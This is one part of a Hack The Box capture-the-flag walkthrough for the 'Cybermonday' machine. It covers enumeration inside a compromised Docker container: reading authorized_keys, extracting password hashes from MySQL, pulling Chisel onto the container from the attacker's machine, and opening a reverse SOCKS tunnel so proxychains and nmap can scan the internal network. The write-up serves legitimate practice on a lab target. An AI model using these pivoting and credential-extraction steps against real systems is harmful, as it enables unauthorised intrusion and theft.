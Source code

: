 # HTB Cybermonday - Where to Now?

[Initial Enumeration](htb-cybermonday-1-initial-enumeration.md)
[Webhook API Admin Access](htb-cybermonday-2-webhook-api-admin.md)
[Obtaining More Info](htb-cybermonday-3-obtaining-more-info.md)
[Gaining a Foothold](htb-cybermonday-4-gaining-a-foothold.md)
[**Where to Now?**](htb-cybermonday-5-where-to-now.md)
[Reading the Source](htb-cybermonday-6-reading-the-source.md)
[Composing Root Access](htb-cybermonday-7-composing-root-access.md)

As you do all your regular enumeration you'll quickly realise (if you hadn't already) that this is a Docker container. Sometimes you can break out of Docker containers, but in this case it seems the vulnerabilities are all covered. One interesting directory is `/mnt`. It looks like a home directory from the host system has been mounted here. You can see the user flag is tantalisingly close, but unfortunately we can't read it at the moment. What about `authorized_keys`? Well it already exists and isn't writeable, but it is readable.
```
ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAACAQCy9ETY9f4YGlxIufn... john@cybermonday
```

Now we have a username we can try to use for `ssh` to the host. Trying some of the basic passwords to login doesn't get us anywhere so lets continue with our Docker box for now. We have a couple of things we can do from here. We can look through the source code of the entire Cybermonday shopping app, and we can use the MySQL credentials from the `.env` file to connect to the database. The container doesn't have `mysql` installed so you'll have to use a PHP script if you want to do that. With this method we can extract the password hashes for the admin user and your own account:
```
1 - admin - admin@cybermonday.htb - $2y$10$6kJuFazZ...
2 - dot - ctf@dotefekts.net - $2y$10$6xMtStxbhJkEf0...
```

We can try and use `hashcat` to determine the admin password but it doesn't look like it's going to work any time soon. Looking through the code doesn't get us any particularly useful information either. So what else can we do? Well, Docker containers means a Docker network, one that we can now scan to find more services that might not have previously been accessible.
We'll need to know what the IP range of our network is, but `ifconfig` and `ip` are both not available on the container, so instead we can use:
```shell
$ hostname -I

<container ip>
```

So now how do we scan this network? Enter [Chisel](https://github.com/jpillora/chisel) a network tunnel that supports reverse proxy. Download Chisel to both your own device and the container. (As HTB machines don't have an internet connection you will need to use `python3 -m http.server` and then `curl` in the container to download Chisel from your device.) Once you have `chisel` ready to go, you can start the server on your device:
```shell
$ ./chisel server -p 8080 --reverse
```

and then connect to it from the container:
```shell
$ ./chisel client <your ip>:8080 R:socks
```

Once the container is connected, Chisel will tell you the port on your device to use to send traffic through the proxy. Now that we have the proxy, we'll need a way to allow `nmap` to utilise it. For this we'll use [Proxychains](https://github.com/haad/proxychains). You may find `proxychains` is already installed if you're using Pwnbox or Parrot, if not you should be able to obtain it via `sudo apt install proxychains`. Once installed, open `/etc/proxychains.conf`. Comment out `strict_chain` and uncomment `dynamic_chain`. You may also want to enable `quiet_mode` if you don't want your console spammed with failed connections. Comment out `proxy_dns`, and finally add the `SOCKS` proxy from `chisel` to the proxy list at the bottom of the file. Now we're ready to go.

Personally I found that running `nmap` on one IP at a time was far quicker than having it scan a range. This was likely because I've misconfigured something or used a wrong flag, but in any case you can scan the network in whatever fashion you please. As `ICMP` packets can't be sent through the `SOCKS` proxy, you'll need to disable host detection for the scan and use the `Connect` method. As such your command should look something like this:
```
$ proxychains nmap -sT <ip to scan> -Pn -oG logs/docker_1_scan -v
```

Once you've finished scanning, you'll see a number of services we're already aware of, such as Redis, MySQL, and the webhook API. One service that we haven't been aware of so far is one on port `5000`. A quick Google tells us this is likely to be a Docker registry service. 

Next: [Reading the Source](htb-cybermonday-6-reading-the-source.md)